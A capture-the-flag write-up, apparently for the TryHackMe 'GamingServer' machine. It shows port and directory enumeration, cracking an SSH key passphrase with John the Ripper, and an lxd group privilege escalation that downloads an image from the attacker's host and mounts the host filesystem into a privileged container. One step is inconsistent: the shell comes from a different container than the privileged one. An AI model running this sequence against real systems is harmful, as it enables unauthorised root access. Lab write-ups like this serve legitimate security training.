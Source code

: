```yaml
---
title: "GamingServer"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="gaming.jpeg" alt="gaming" style="width: 200px;" >}}

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
                        [Status: 200, Size: 2762, Words: 241, Lines: 78]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 2762, Words: 241, Lines: 78]
robots.txt              [Status: 200, Size: 33, Words: 3, Lines: 4]
secret                  [Status: 301, Size: 315, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10]

```

Heh another ctf in the gaming theme...looks like a RPG
`uploads` got us files

`dict.lst` is obviously a dictionary for cracking

`meme.jpg` is...well a meme

`manifesto.txt` is a mad long text...and I read it...and damn it's full of...
things people may relate to
well...Its a manifesto

And in the `/secret` dir we get an rsa key
First I want to get steganography out of the way...and yes there was nothing there
Do you people remember how we always insist on checking source code?

```html
</body>
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
</html>
```

Now we know `john`
ok we can try to ssh now...

```bash
└──╼ $chmod 600 secretKey

└──╼ $ssh john@10.10.89.54 -i secretKey
Enter passphrase for key 'secretKey':
```

Who didn't expect that? why would they give you a dictionary bro?

```bash
└──╼ $python2 /usr/share/john/ssh2john.py secretKey > secretkey.john

└──╼ $john secretkey.john -w=dict.lst
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
1g 0:00:00:01 DONE (2021-12-02 13:26) 0.9345g/s 208.4p/s 208.4c/s 208.4C/s baseball
Session completed
```

Try again now and you got your user flag

```bash
john@exploitable:~$ cat user.txt
level_one_flag
```

## Privilege Escalation

upgrades people! upgrades!!

we cannot `sudo -l` so we need more enumeration

```bash
john@exploitable:~$ ls -al
total 60
drwxr-xr-x 8 john john  4096 Jul 27  2020 .
drwxr-xr-x 3 root root  4096 Feb  5  2020 ..
lrwxrwxrwx 1 john john     9 Jul 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 john john   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 john john  3771 Apr  4  2018 .bashrc
drwx------ 2 john john  4096 Feb  5  2020 .cache
drwxr-x--- 3 john john  4096 Jul 27  2020 .config
drwx------ 3 john john  4096 Feb  5  2020 .gnupg
drwxrwxr-x 3 john john  4096 Jul 27  2020 .local
-rw-r--r-- 1 john john   807 Apr  4  2018 .profile
drwx------ 2 john john  4096 Feb  5  2020 .ssh
-rw-r--r-- 1 john john     0 Feb  5  2020 .sudo_as_admin_successful
drwxr-xr-x 2 root root  4096 Feb  5  2020 .vim
-rw------- 1 root root 12070 Jul 27  2020 .viminfo
-rw-rw-r-- 1 john john    33 Feb  5  2020 user.txt
```
yeah nothing here

```bash
john@exploitable:~$ find / -perm -u=s 2> /dev/null
/bin/mount
/bin/umount
/bin/su
/bin/fusermount
/bin/ping
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/newuidmap
```
hmmm....should we use linenum?

```bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Add "always checking groups with `id`" to privesc enum process
Google `lxd privilege escalation` for more information

Seriously if it sounds easy you better check [here](https://0x44696f21.wordpress.com/2020/08/18/building-lxd-containers-on-kali/) and you might end up [here](https://linuxcontainers.org/distrobuilder/introduction/)

and [here](https://github.com/lxc/distrobuilder) XD

I had issues with `alpine-builder`
```bash
Downloading apk-tools-static-2.12.7-r3.apk
tar: Le mot clé inconnu « APK-TOOLS.checksum.SHA1 » pour l'en-tête étendu a été ignoré
tar: Le mot clé inconnu « APK-TOOLS.checksum.SHA1 » pour l'en-tête étendu a été ignoré
ERROR: checksum is missing for alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
Failed to download a valid static apk
```
So I had to use `distrobuilder`

Next we fire up a python server in `build` folder

Then grab the files on target machine

```bash
john@exploitable:/tmp$ wget http://10.8.226.203/lxd.tar.xz
--2021-12-02 18:21:12--  http://10.8.226.203/lxd.tar.xz
Connecting to 10.8.226.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 424 [application/x-xz]
Saving to: ‘lxd.tar.xz’

lxd.tar.xz                                                 100%[========================================================================================================================================>]     424  --.-KB/s    in 0s

2021-12-02 18:21:14 (71.3 MB/s) - ‘lxd.tar.xz’ saved [424/424]

john@exploitable:/tmp$ wget http://10.8.226.203/rootfs.squashfs
--2021-12-02 18:21:34--  http://10.8.226.203/rootfs.squashfs
Connecting to 10.8.226.203:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1798144 (1.7M) [application/octet-stream]
Saving to: ‘rootfs.squashfs’

rootfs.squashfs                                            100%[========================================================================================================================================>]   1.71M  49.1KB/s    in 32s

2021-12-02 18:22:06 (54.8 KB/s) - ‘rootfs.squashfs’ saved [1798144/1798144]
```
Import the image on target machine as mymnimal

```bash
john@exploitable:/tmp$ lxc image import --alias myminimal lxd.tar.xz rootfs.squashfs
Image imported with fingerprint: 3fd9f575e8312f2df6490e37cce8bdec46a378e73d4fd75fe18ff5c3b7479c70
```
launch it

```bash
john@exploitable:/tmp$ lxc launch myminimal mycontainer
Creating mycontainer
Starting mycontainer
```
check it

```bash
john@exploitable:/tmp$ lxc list mycontainer
+-------------+---------+------+-----------------------------------------------+------------+-----------+
|    NAME     |  STATE  | IPV4 |                     IPV6                      |    TYPE    | SNAPSHOTS |
+-------------+---------+------+-----------------------------------------------+------------+-----------+
| mycontainer | RUNNING |      | fd42:2998:1e63:3d6f:216:3eff:fe24:9e2d (eth0) | PERSISTENT | 0         |
+-------------+---------+------+-----------------------------------------------+------------+-----------+
```
create a new container with right privileges

```bash
john@exploitable:/tmp$ lxc init myminimal ignite -c security.privileged=true
Creating ignite
```
Mount the `/` folder in the container and start it

```bash
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
```
Get a root shell in that

```bash
john@exploitable:/tmp$ lxc exec mycontainer -- sh
~ # id
uid=0(root) gid=0(root)
```
Go grab the flags where they are

```bash
~ # cd /mnt/root
/mnt/root # ls
bin             cdrom           etc             initrd.img      lib             lost+found      mnt             proc            run             snap            swap.img        tmp             var             vmlinuz.old
boot            dev             home            initrd.img.old  lib64           media           opt             root            sbin            srv             sys             usr             vmlinuz
/mnt/root # cd root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
lxd_final_boss_flag
```

Game Over...you win!
